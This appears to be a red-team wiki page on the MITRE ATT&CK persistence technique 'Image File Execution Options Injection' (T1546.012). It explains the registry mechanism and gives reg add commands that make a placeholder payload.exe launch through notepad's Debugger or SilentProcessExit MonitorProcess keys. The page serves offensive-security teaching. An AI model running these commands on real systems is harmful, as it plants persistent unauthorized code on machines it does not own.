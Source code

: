 ```yaml
---
description: >-
  MITRE ATT&CK™ Event Triggered Execution: Image File Execution Options
  Injection - Technique T1546.012
---
```


# Image File Execution Options

## Theory

Image File Execution Options is a Windows registry key which enables developers to attach a debugger to an application and to enable “**GlobalFlag**” for application debugging. This behavior of Windows opens the door for persistence since an arbitrary executable can be used as a debugger of a specific process or as a “**MonitorProcess**“. \
In both scenarios code execution will achieved and the trigger will be either the creation of a process or the exit of an application. However it should be noted that the implementation of this technique requires Administrator level privileges as the registry location which the keys needs to be added is under **HKLM**

## Practice

{% tabs %}
{% tab title="GlobalFlag" %}
With the GlobalFlag persistence technique, payload is triggered when the target application is closed.

```powershell
#Enables the silent exit monitoring for the notepad process.
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

#Enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “MonitorProcess”
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

#Set up the arbitrary payload
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\payload.exe"
```
{% endtab %}

{% tab title="Debugger" %}
Using the debugger technique, we can define a binary that will be attached to the targeted process

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\tmp\payload.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/" %}

{% embed url="https://attack.mitre.org/techniques/T1546/012/" %}
